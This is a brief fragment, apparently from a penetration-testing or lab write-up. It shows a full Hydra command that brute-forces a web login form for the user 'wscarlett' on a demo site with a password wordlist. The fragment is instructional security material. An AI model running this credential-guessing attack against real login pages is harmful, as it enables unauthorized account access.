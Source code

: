 With this command we can run the list passwords from list and check the correct password out of it.
hydra -l wscarlett -P /usr/share/wordlists/custom/passwd-wordlist.txt test-site.demo http-form-post "/[LOGINPAGE]:username=^USER^&password=^PASS^&Login=Login:Invalid Password" 
